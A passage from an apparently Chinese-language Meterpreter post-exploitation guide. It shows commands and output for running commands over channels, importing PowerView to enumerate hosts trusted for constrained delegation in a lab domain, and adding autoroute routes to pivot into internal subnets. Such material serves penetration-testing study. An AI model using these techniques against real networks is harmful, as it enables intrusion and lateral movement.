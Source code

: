 命令执行并且使用 channel 指令读取回显：

```console
meterpreter > execute -c -f whoami
Process 21906 created.
Channel 8 created.
meterpreter > channel -r 8
Read 6 bytes from 8:

redis

meterpreter >
```

| 参数  | 简述           |
| ----- | -------------- |
| -c/-k | 关闭给定的通道 |
| -i    | 与给定通道交互 |
| -l    | 列出活动通道   |
| -r    | 从给定通道读取 |
| -w    | 写入给定通道   |

在 windows 的 meterpreter 中输入如下命令，加载 powershell 扩展并进入 powershell 交互模式：

```
load powershell
```

加载并执行 powershell 脚本：

```console
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_import /root/PowerView.ps1
[+] File successfully imported. No result was returned.
meterpreter > powershell_execute "Get-DomainComputer -TrustedToAuth -Properties samaccountname,msds-allowedtodelegateto"
[+] Command execution completed:
samaccountname msds-allowedtodelegateto
-------------- ------------------------
MSSQLSERVER$   {ldap/DC.xiaorang.lab/xiaorang.lab, ldap/DC.xiaorang.lab, ldap/DC, ldap/DC.xiaorang.lab/XIAORANG...}

meterpreter >
```

### 自动路由

> autoroute 后渗透模块通过 Meterpreter 会话创建新路由，使您能够更深入地进入目标网络。

从 meterpreter 提示符中使用：

```console
meterpreter > run post/multi/manage/autoroute
[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against WORK-7
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.10.10.0/255.255.255.0 from host's routing table.

# 经常自动路由会没路由到，可以手动添加路由
meterpreter > run post/multi/manage/autoroute -s 10.10.20.7/24
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.10.20.7/255.255.255.0...
```